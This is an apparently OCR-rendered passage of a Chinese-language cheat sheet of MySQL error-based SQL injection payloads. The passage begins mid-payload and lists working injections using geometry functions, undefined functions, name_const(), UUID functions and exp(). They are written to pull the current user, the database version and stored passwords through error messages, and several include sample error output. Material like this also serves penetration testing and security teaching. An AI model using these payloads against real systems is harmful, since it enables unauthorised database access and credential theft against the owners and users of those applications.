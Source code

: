 ```mysql
0,1)) from information_schema.tables limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a
```

**几何函数**

```mysql
GeometryCollection：id=1 AND GeometryCollection((select * from (select* from(select user())a)b))

polygon()：id=1 AND polygon((select * from(select * from(select user())a)b))

multipoint()：id=1 AND multipoint((select * from(select * from(select user())a)b))

multilinestring()：id=1 AND multilinestring((select * from(select * from(select user())a)b))

linestring()：id=1 AND LINESTRING((select * from(select * from(select user())a)b))

multipolygon() ：id=1 AND multipolygon((select * from(select * from(select user())a)b))
```

**不存在函数**

```mysql
可以用来爆数据库
select a();
ERROR 1305 (42000): FUNCTION mysql.a does not exist
```

**name\_const()**

```mysql
仅可取数据库版本信息
select * from(select name_const(version(),0x1),name_const(version(),0x1))a;
ERROR 1060 (42S21): Duplicate column name '5.5.29'
```

**uuid相关函数**

```mysql
适用版本：8.0.x
mysql> SELECT UUID_TO_BIN((SELECT password FROM users WHERE id=1));
mysql> SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```

**exp()**

> exp(int)
>
> 返回e的x次方
>
> 适用版本：版本在5.5.5~5.5.49

```mysql
select exp(~(select * FROM(SELECT USER())a));
--其中，~符号为运算符，意思为一元字符反转，通常将字符串经过处理后变成大整数，再放到exp函 数内，得到的结果将超过mysql的double数组范围，从而报错输出。除了exp()之外，还有类似pow()之类的相似函数同样是可利用的，他们的原理相同。
--double 数值类型超出范围
--Exp()为以e 为底的对数函数；

--ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

如果是在适用版本之外：虽然也会报错，但是表名不会出来
select !(select * from(select user())a)-~0;
```
